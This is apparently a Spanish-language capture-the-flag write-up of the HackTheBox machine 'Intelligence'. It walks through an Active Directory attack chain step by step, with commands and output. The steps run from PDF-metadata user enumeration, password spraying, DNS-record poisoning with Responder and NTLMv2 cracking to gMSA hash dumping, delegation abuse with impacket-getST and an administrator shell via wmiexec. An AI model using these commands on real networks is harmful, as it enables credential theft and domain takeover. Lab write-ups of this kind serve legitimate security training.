

### Enumeración de usuarios de los archivos PDF

Haciendo uso de `exiftool` para obtener información de los creadores de los documentos PDFs

```python
❯ exiftool *upload.pdf| grep Creator
```



Ahora filtraremos por los usuarios que se encuentran en los metadatos.

```python
❯ exiftool *upload.pdf| grep Creator| awk '{print $3}' > user.txt
```



### Validación de Usuarios

Haciendo uso de `Kerbrute` podremos validar los usuarios que encontramos en los metadatos de cada uno de los documentos PDFs.

```python
❯ ./kerbrute_linux_amd64 userenum -d intelligence.htb /home/b0ysie7e/seven/hackthebox/maquinas/Intelligence/content/user.txt --dc 10.10.10.248
```



Vemos que todos los usuarios son validos
### Obtención de credenciales dentro de PDFs

Revisando el contenido de cada uno de los PDFs encotraremos unas credenciales

```python
❯ for file in $(ls) ;do pdftotext "$file" /dev/stdout; done
```



La credencial que encontramos es:

```python
NewIntelligenceCorpUser9876
```

Ahora, con los usuarios que enumeramos en los documentos y haciendo uso de `netexec` podremos validar cada uno de los usuarios con la credencial

```python
❯ netexec smb 10.10.10.248 -u user.txt -p 'NewIntelligenceCorpUser9876'
.
.
.
MB         10.10.10.248    445    DC               [-] intelligence.htb\David.Wilson:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Scott.Scott:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Teresa.Williamson:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\John.Coleman:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Veronica.Patel:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\John.Coleman:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Samuel.Richardson:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Ian.Duncan:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Nicole.Brock:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\William.Lee:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Jason.Wright:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Travis.Evans:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\David.Mcbride:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Jessica.Moody:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Ian.Duncan:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Jason.Wright:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Richard.Williams:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876 
```

Encontramos un usuario `Tiffany.Molina` que es valido a través del servicio `smb`
# Escalada de privilegios

## Usuario : Tiffany.Molina

Teniendo las credenciales: `Tiffany.Molina : NewIntelligenceCorpUser9876` podremos ver los recursos compartidos, antes intentamos ingresar con `evil-winrm` y no se pudo. 



Revisando el contenido del directorio `IT` encontraremos un archivo de PowerShell que es `downdetector.ps1`.

```python
❯ cat downdetector.ps1
��# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}

```

1. **Import-Module ActiveDirectory**: Esta línea importa el módulo ActiveDirectory de PowerShell, lo que permite al script interactuar con el entorno de Active Directory.
    
2. **foreach($record in Get-ChildItem ...)**: Este bucle foreach recorre todos los elementos hijos en la ubicación de Active Directory especificada que cumplen con el filtro proporcionado por `Where-Object`. En este caso, filtra los elementos cuyo nombre comienza con "web".
    
3. **Invoke-WebRequest**: Este cmdlet se utiliza para realizar solicitudes HTTP a los hosts obtenidos del Active Directory. Utiliza las credenciales predeterminadas del usuario que ejecuta el script (`-UseDefaultCredentials`).
    
4. **if (.StatusCode -ne 200)**: Esta línea verifica si el código de estado de la respuesta HTTP no es 200 (OK). Si la respuesta no es 200, el script envía un correo electrónico informando que el host está fuera de línea.
    
5. **Send-MailMessage**: Este cmdlet se utiliza para enviar correos electrónicos utilizando PowerShell. Toma varios parámetros, como el remitente, el destinatario, el asunto y el cuerpo del correo electrónico.

Ahora que entendemos mejor que es lo que hace el script en powershell, lo que arremos sera agregar un registro dns que sera `webSeven`. Haciendo uso de  `dnstool.py` podremos agregar, esta herramienta la encontraremos en [krbrealyx](https://github.com/dirkjanm/krbrelayx/tree/master)

```python
❯ python3 dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -r webSeven -a add -t A -d 10.10.16.7 10.10.10.248
```




Luego iniciaremos el `responder` para interceptar credenciales que viajan a nivel de red

```python
❯ sudo responder -I tun0
```



Luego de 5min podremos obtener un hash NTLMv2 que es craceable.

```python
.
.
.
[+] Listening for events...                                                                                                                                                                

[HTTP] NTLMv2 Client   : 10.10.10.248
[HTTP] NTLMv2 Username : intelligence\Ted.Graves
[HTTP] NTLMv2 Hash     : Ted.Graves::intelligence:8de04edc378bfc1a:321684968567AB8B0535558B3979A86A:0101000000000000B444CAF8B781DA01F475DC5129DB258900000000020008004C0042005800580001001E00570049004E002D00300030005A004D0058005800590050004C004B005800040014004C004200580058002E004C004F00430041004C0003003400570049004E002D00300030005A004D0058005800590050004C004B0058002E004C004200580058002E004C004F00430041004C00050014004C004200580058002E004C004F00430041004C00080030003000000000000000000000000020000017B02E6EBECE727603AE8EB6102D3ED5B3BA7C322333D1BFF3896AF41BB87F9E0A0010000000000000000000000000000000000009003C0048005400540050002F0077006500620073006500760065006E002E0069006E00740065006C006C006900670065006E00630065002E006800740062000000000000000000 
```

Haciendo uso de `John th Ripper` podremos lograr crackearlo

```python
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hashNTLMv2
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Mr.Teddy         (Ted.Graves)     
1g 0:00:00:04 DONE (2024-03-28 21:11) 0.2053g/s 2220Kp/s 2220Kc/s 2220KC/s Mrz.deltasigma..Morgant1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

## Usuario : Mr.Teddy

Luego de crackear tendremos las credenciales, con las que podremos enumerar en `directorio activo` y haciendo uso de `bloodhound-python` podremos enumerar y obtener los archivos para luego cargarlos al `bloodHound`  

```python
Mr.Teddy         (Ted.Graves)   
```

```python
❯ bloodhound-python -d intelligence.htb -u 'Ted.Graves' -p 'Mr.Teddy   ' -c all -ns 10.10.10.248
```



Podemos observar que el usuario `Mr.Teddy` pertenece al grupo `ITSUPPORT`, este tiene permisos de `READGMSPassword` sobre el usuario `SVC_INT`. El usuario `svc_int` tiene permisos de `AllowedToDelegate` contra el dominio
### ReadGMSAPassword

```python
❯ python3 gMSADumper.py -u 'Ted.Graves' -p 'Mr.Teddy' -d intelligence.htb
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::486b1ed2229329984333a964b71045e9
svc_int$:aes256-cts-hmac-sha1-96:0d542d3dac3287785fe6d87d4e242bfcbcd3bf999541f31cd1b058e42ed2992a
svc_int$:aes128-cts-hmac-sha1-96:e85b1861ce4c561627b9532b64d86460
```

Obtenemos el hash del servicies account del usuario `svc_int`

### AllowedToDelegate

Para realizar el siguiente ataque podremos revisar el siguiente post [Abusing Kerberos from linux](https://www.onsecurity.io/blog/abusing-kerberos-from-linux/). 

Para ejecutar `impacket-getST` debemos obtener el `SPN` de la maquina victima y para ello usaremos [Pywerview](https://github.com/the-useless-one/pywerview) 

```python
❯ pywerview get-netcomputer -u 'Ted.Graves' -t 10.10.10.248 --full-data
```



Luego de obtener el `SPN`, podremos solicitar un `Ticket` (Silver Ticket) para así autenticarnos sin proporcionar contraseña  

```python
❯ impacket-getST -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes :486b1ed2229329984333a964b71045e9 -impersonate administrator intelligence.htb/svc_int
```



Vemos que tenemos un error, esto es debido a que la hora de nuestra maquina atacante debe estar sincronizada con la maquina victima.

Desincronizaremos nuestra maquina atacante virtualizada con nuestra maquina host con los siguientes comandos:

```python
❯ timedatectl set-ntp 0
❯ sudo service virtualbox-guest-utils stop
```

Luego sincronizaremos la maquina atacante con la victima.

```python
❯ sudo ntpdate 10.10.10.248
[sudo] contraseña para b0ysie7e: 
2024-03-29 05:27:06.307856 (-0500) +25300.268895 +/- 0.050918 10.10.10.248 s1 no-leap
CLOCK: time stepped by 25300.268895
```

Ahora volveremos a ejecutar y solicitar el `Ticket` 

```python
❯ impacket-getST -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes :486b1ed2229329984333a964b71045e9 -impersonate administrator intelligence.htb/svc_int
```



Luego veremos que obtuvimos un `Ticket` que se nos guardara como `administrator.ccache`. Ahora haremos uso de este para asignar a una variable `KRB5CCNAME`

```python
export KRB5CCNAME=administrator.ccache
```
## Usuario : Administrator

Luego de asignar la variable `KRB5CCNAME` podremos autenticarnos con `impacket-wmiexec` 

```python
❯ impacket-wmiexec dc.intelligence.htb -k -no-pass
```


